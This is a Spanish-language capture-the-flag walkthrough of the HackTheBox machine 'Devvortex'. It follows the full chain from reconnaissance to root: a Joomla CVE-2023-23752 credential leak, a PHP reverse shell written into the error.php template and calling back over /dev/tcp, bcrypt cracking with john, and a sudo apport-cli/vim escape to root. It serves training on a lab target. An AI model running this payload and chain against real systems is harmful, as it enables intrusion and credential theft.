 ```yaml
---
title: HackTheBox-Devvortex Easy
published: false
---
```

Esta es una máquina fácil de la plataforma de HackTheBox, en la cual vamos a obtener **RCE** a través de la explotación de el CMS **Joomla**.
Crackearemos una contraseña en hash **bcrypt** para escalar privilegios, y ganaremos acceso root gracias a la capacidad de ejecutar el binario **apport-cli** 
con privilegio de superusuario.

# Reconocimiento
Empezamos realizando un escaneo de puertos con el comando: 
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.242 -oN puertos
```
![puertos](/assets/devvortex/puertos.png)

Los puertos abiertos son:
- 22
- 80

Una vez que sabemos los puertos, hacemos otro escaneo para ver los servicios que corren en los mismos:

```
nmap -p22,80 -sCV 10.10.11.242 -oN services
```
![servicios](/assets/devvortex/servicios.png)

Tenemos el puerto 22(ssh) y el 80(http). Lo que significa que hay una página web.
También nos reporta un dominio `http://devvortex.htb`
Inicialmente la página web no tienen nada interesante y tampo es funcional, por lo que vamos a realizar un descubrimiento de directorios:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://devvortex.htb
```
Desafortunadamente no encontraos ningún directorio importante por lo que, en vez de descubrir directorios, vamos a tratar de descubrir subdominios:

```
wfuzz -c --hc 404 --hw 10 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb'
```
![subdominios](/assets/devvortex/subdominio.png)

El subdominio `dev` tiene buena pinta. Parece que es el subdominio de desarrollo de la página web. Si miramos el `wappalyzer`(lo podéis encontrar en [wappalyzer](https://addons.mozilla.org/es/firefox/addon/wappalyzer/)) vemos que está utilizando Joomla.
Joomla es un **CMS** (Content Management System) que suele ser usado en desarrollo web.
Si miramos en el archivo **robots.txt** vemos que hay una ruta /administrator, en la cual hay un panel de login.

![robotstxt](/assets/devvortex/robotstxt.png)

![login](/assets/devvortex/login.png)

Para tratar de enumerar la versión de Joomla vamos a usar la herraamienta **droopescan**.

![droopescan](/assets/devvortex/droopescan.png)

La propia herramienta no logra encontrar la versión de joomla pero, nos pasa un archivo que podría contener información importante: **/administrator/manifests/files/joomla.xml**
En este archivo si que vemos la versión de joomla:

![joomlaxml](/assets/devvortex/joomlaxml.png)

Parece ser que la versión del CMS es la 4.2.6, la cual tiene una vulnerabilidad de Information Disclousure.

# Joomla Information Disclousure
Para explotar esta vulnerabilidad vamos a usar [el exploit de Acceis](https://github.com/Acceis/exploit-CVE-2023-23752). 
Este exploit nos reporta el usuario y contraseña del panel de login que hemos encontrado:

![info](/assets/devvortex/exploit.png)

Con estas credenciales accedemos al panel de administración de Joomla.
Ahora, vamos a obtener **RCE** a la máquina mediante la inyección de código php malicioso en uno de los archivos del template de Joomla:

# Joomla RCE modificando template
Dentro de la interfaz, tenemos que dirigirnos a **System -> Administrator Templates -> Atum Details and Files -> error.php** como se muestra en las siguientes imágenes:

![php1](/assets/devvortex/php1.png)

![php2](/assets/devvortex/php2.png)

![php3](/assets/devvortex/php3.png)

![php4](/assets/devvortex/php4.png)

Una vez estemos en el archivo **error.php**, introducimos el siguiente código php:

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/nuestraip/puerto 0>&1'");
```
Llegados a este punto, simplemente nos ponemos en escucha con netcat por el puerto que hayamos puesto en el php(en este caso el 443):

```
nc -nlvp 443
```
y realizamos una petición al archivo error.php, ya sea por `curl` o mediante el navegador.

Con esto ya tenemos ejecución remota de comandos. Pero antes de pasar a la escalada, vamos a convertir la consola en una shell completamente interactiva:

```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
Ahora sí, pasamos a la escalada.

# Escalada de privilegios
Para empezar, como tenemos las credenciales de la base de datos SQL vamos a conectarnos a ella mediante la terminal:

```
mysql -u lewis -p
contraseña
show databases;
use joomla;
select * from sd4fg_users;
```
Con esto vemos la contraseña encriptada del usuario logan:

![hash](/assets/devvortex/hash.png)

Parece que el hash es `bcrypt`, así que vamos a tratar de crackearlo con john mediante fuerza bruta:

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Al hacer esto obtenemos la contraseña en texto claro, que es `tequieromucho`.

Llegados a este punto, ya solo queda convertirnos en usuario root.

# Pwned!

Vamos a empezar ejecutando **sudo -l** para ver si hay algún binario que podamos ejecutar con privilegio root.
Hay uno, `/usr/bin/apport-cli`.
Este binario lo vamos a ejecutar con el siguiente comando:
```
sudo /usr/bin/apport-cli -f 
```
Al ejecutar el binario, hay una serie de inputs en los que tenemos que seleccionar una opción.

En el primer input seleccionamos la primera opción, después la segunda opción, y finalmente seleccionamos **V(View Report)**. Al seleccionar esta última opción abre una terminal de `vim`.

Llegados a este punto, en la terminal de vim escribimos **!/bin/bash**, como se ve en la imagen:

![bin4](/assets/devvortex/bin4.png)

Ahora simplemente con presionar la tecla **Intro**, ya tenemos una consola como `superusuario`

